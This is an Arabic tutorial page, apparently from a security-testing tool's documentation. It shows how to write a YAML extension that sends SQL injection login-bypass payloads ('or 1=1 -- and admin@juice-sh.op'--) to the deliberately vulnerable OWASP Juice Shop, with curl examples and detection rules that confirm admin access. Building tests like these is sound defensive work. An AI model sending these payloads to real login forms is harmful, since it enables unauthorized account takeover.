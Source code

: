 [link-meta-info]:           ../create-extension.md#structure-of-the-meta-info-section
[link-send-headers]:        ../phase-send.md#working-with-the-host-header
[link-using-extension]:     ../using-extension.md
[link-app-examination]:     app-examination.md

[doc-send-phase]:           ../phase-send.md
[doc-detect-phase]:         ../detect/phase-detect.md

[link-juice-shop]:          https://www.owasp.org/index.php/OWASP_Juice_Shop_Project

#   إنشاء امتداد غير معدل

الامتداد الموصوف في هذا المستند لن يعدل طلب أساسي وارد لإدراج بعض البيانات فيه. بدلاً من ذلك، سيتم إرسال اختبارين محددين مسبقًا إلى الجهاز المُحدد في الطلب الأساسي. هذه الاختبارات تحتوي على بيانات قد تؤدي إلى استغلال ضعف SQLi في نموذج تسجيل الدخول لتطبيق الهدف [“OWASP Juice Shop”][link-juice-shop].


##  التحضيرات

ينصح بشدة بـ[التحقيق في سلوك تطبيق الهدف][link-app-examination] قبل إنشاء امتداد FAST.


##  بناء الامتداد

أنشئ ملفًا يصف الامتداد (على سبيل المثال، `non-mod-extension.yaml`) واملأه بالأقسام المطلوبة:

1.  [**قسم `meta-info`**][link-meta-info].

    جهز وصفًا للضعف الذي سيحاول الامتداد اكتشافه.
    
    * عنوان الضعف: `OWASP Juice Shop SQLi (امتداد غير تعديلي)`
    * وصف الضعف: `عرض ل SQLi في OWASP Juice Shop (تسجيل دخول الإدارة)`
    * نوع الضعف: حقن SQL
    * مستوى تهديد الضعف: عالي
    
    يجب أن يبدو القسم `meta-info` على النحو التالي:
    
    ```
    meta-info:
      - type: sqli
      - threat: 80
      - title: 'OWASP Juice Shop SQLi (امتداد غير تعديلي)'
      - description: 'عرض ل SQLi في OWASP Juice Shop (تسجيل دخول الإدارة)'
    ```
    
2.  **قسم `send`، [مرحلة الإرسال][doc-send-phase]**

    هناك قيمتان يجب إرسالهما كقيمة للمعامل `email` بجانب أي قيمة `password` من أجل استغلال ضعف حقن SQL في تطبيق الهدف:
    
    * `'or 1=1 --`
    * `admin@juice-sh.op'--`
    
    يمكنك إعداد طلبين اختباريين، كل منهما يحتوي
    
    * على معامل `email` بإحدى القيم المذكورة أعلاه و
    * على معامل `password` بقيمة عشوائية.

    من المكفول استخدام أحد هذين الطلبين فقط لاختبار تطبيق الهدف الخاص بنا (OWASP Juice Shop).
    
    ومع ذلك، قد يكون امتلاك مجموعة من عدة طلبات اختبار مفيدًا عند إجراء اختبار الأمان لتطبيق حقيقي: إذا لم يعد أحد الطلبات قادرًا على استغلال ضعف بسبب التحديثات والتحسينات في التطبيق، فسيكون هناك طلبات اختبار أخرى متاحة قد تستغل الضعف بسبب استخدام بيانات أخرى.

    يشابه الطلب مع القيمة الأولى من القائمة أعلاه هذا الطلب:
    
    ```
    curl --request POST --url http://ojs.example.local/rest/user/login \
         --header 'content-type: application/json' \
         --header 'host: ojs.example.local' \
         --data '{"email":"'\''or 1=1 --", "password":"12345"}'
    ```

    يبدو الطلب الثاني مثل الأول:

    ```
    curl --request POST --url http://ojs.example.local/rest/user/login \
         --header 'content-type: application/json' \
         --header 'host: ojs.example.local' \
         --data '{"email":"admin@juice-sh.op'\''--", "password":"12345"}'
    ```

    أضف قسم `send` الذي يحتوي على وصف هذين الطلبين الاختباريين:
    
    ```
    send:
      - method: 'POST'
        url: '/rest/user/login'
        headers:
        - 'Content-Type': 'application/json'
        body: '{"email":"''or 1=1 --","password":"12345"}'
      - method: 'POST'
        url: '/rest/user/login'
        headers:
        - 'Content-Type': 'application/json'
        body: '{"email":"admin@juice-sh.op''--","password":"12345"}'
    ``` 
    
    !!! info "ملاحظة بخصوص رأس الـ`Host`" 
        يمكن تجاهل رأس الـ`Host` في هذه الطلبات لأنه لا يؤثر على استغلال هذا الضعف SQLi بشكل خاص. سيضيف عقدة FAST تلقائيًا رأس الـ`Host` المُستخرج من طلبات الأساس الواردة.
        
        اقرأ [هنا][link-send-headers] حول كيفية معالجة مرحلة الإرسال لرؤوس الطلبات.

     3.  **قسم `detect`، [مرحلة الكشف][doc-detect-phase]**.
    
    تشير الشروط التالية إلى نجاح المصادقة على المستخدم بحقوق المدير:
    
    * وجود معامل تعريف عربة التسوق بقيمة `1` في جسم الاستجابة. يجب أن يظهر المعامل بتنسيق JSON ويبدو كما يلي:
    
        ```
        "bid":1
        ```
    
    * وجود معامل بريد المستخدم الإلكتروني بقيمة `admin@juice-sh.op` في جسم الاستجابة. يجب أن يظهر المعامل بتنسيق JSON ويبدو كما يلي:
    
        ```
         "umail":"admin@juice-sh.op"
        ```
    
    أضف قسم `detect` الذي يتحقق مما إذا كان الهجوم قد نجح وفقًا للشروط المذكورة أعلاه.
    
    ```
    detect:
      - response:
        - body: "\"umail\":\"admin@juice-sh.op\""
        - body: "\"bid\":1"
    ```
    
!!! info "التعامل مع الرموز الخاصة"
    تذكر أن تهرب الرموز الخاصة في النصوص.

##  ملف الامتداد

الآن يحتوي ملف `non-mod-extension.yaml` على مجموعة كاملة من الأقسام المطلوبة للعمل بالامتداد. تظهر قائمة بمحتويات الملف أدناه:

??? info "non-mod-extension.yaml"
    ```
    meta-info:
      - type: sqli
      - threat: 80
      - title: 'OWASP Juice Shop SQLi (امتداد غير تعديلي)'
      - description: 'عرض ل SQLi في OWASP Juice Shop (تسجيل دخول الإدارة)'

    send:
      - method: 'POST'
        url: '/rest/user/login'
        headers:
        - 'Content-Type': 'application/json'
        body: '{"email":"''or 1=1 --","password":"12345"}'
      - method: 'POST'
        url: '/rest/user/login'
        headers:
        - 'Content-Type': 'application/json'
        body: '{"email":"admin@juice-sh.op''--","password":"12345"}'

    detect:
      - response:
        - body: "\"umail\":\"admin@juice-sh.op\""
        - body: "\"bid\":1"
    ```

##  استخدام الامتداد

للحصول على معلومات مفصلة حول كيفية استخدام الامتداد المُنشأ، اقرأ [هذا المستند][link-using-extension].